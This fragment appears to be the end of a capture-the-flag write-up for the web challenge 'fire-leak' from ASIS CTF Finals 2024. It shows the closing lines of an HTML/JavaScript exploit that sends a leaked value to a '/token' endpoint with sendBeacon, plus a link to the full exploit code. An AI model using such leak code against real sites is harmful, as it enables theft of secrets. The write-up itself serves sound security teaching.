 ```html
      }
      navigator.sendBeacon("/token", known);
    };
    main();
  </script>
</body>
```

- A full exploit code: https://github.com/arkark/my-ctf-challenges/tree/main/challenges/202412_ASIS_CTF_Finals_2024/web/fire-leak/solution

